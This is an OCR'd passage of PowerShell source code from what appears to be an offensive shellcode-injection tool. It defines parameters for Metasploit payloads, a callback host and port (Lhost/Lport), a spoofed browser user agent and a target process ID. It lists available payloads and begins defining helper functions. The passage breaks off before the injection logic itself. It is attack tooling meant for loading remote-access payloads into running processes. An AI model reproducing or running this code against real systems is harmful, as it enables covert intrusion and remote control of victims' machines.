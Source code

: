     [Parameter( ParameterSetName = 'ListPayloads' )]
    [Switch]
    $ListMetasploitPayloads,
    
    [Parameter( Mandatory = $True,
                ParameterSetName = 'Metasploit' )]
    [ValidateNotNullOrEmpty()]
    [String]
    $Lhost = '127.0.0.1',
    
    [Parameter( Mandatory = $True,
                ParameterSetName = 'Metasploit' )]
    [ValidateRange( 1,65535 )]
    [Int]
    $Lport = 8443,
    
    [Parameter( ParameterSetName = 'Metasploit' )]
    [ValidateNotNull()]
    [String]
    $UserAgent = 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)',
    
    [Switch]
    $Force = $False
)

    Set-StrictMode -Version 2.0
    
    # List all available Metasploit payloads and exit the function
    if ($PsCmdlet.ParameterSetName -eq 'ListPayloads')
    {
        $AvailablePayloads = (Get-Command Invoke-Shellcode).Parameters['Payload'].Attributes |
            Where-Object {$_.TypeId -eq [System.Management.Automation.ValidateSetAttribute]}
    
        foreach ($Payload in $AvailablePayloads.ValidValues)
        {
            New-Object PSObject -Property @{ Payloads = $Payload }
        }
        
        Return
    }

    if ( $PSBoundParameters['ProcessID'] )
    {
        # Ensure a valid process ID was provided
        # This could have been validated via 'ValidateScript' but the error generated with Get-Process is more descriptive
        Get-Process -Id $ProcessID -ErrorAction Stop | Out-Null
    }
    
    function Local:Get-DelegateType
    {
        Param
        (
            [OutputType([Type])]
            
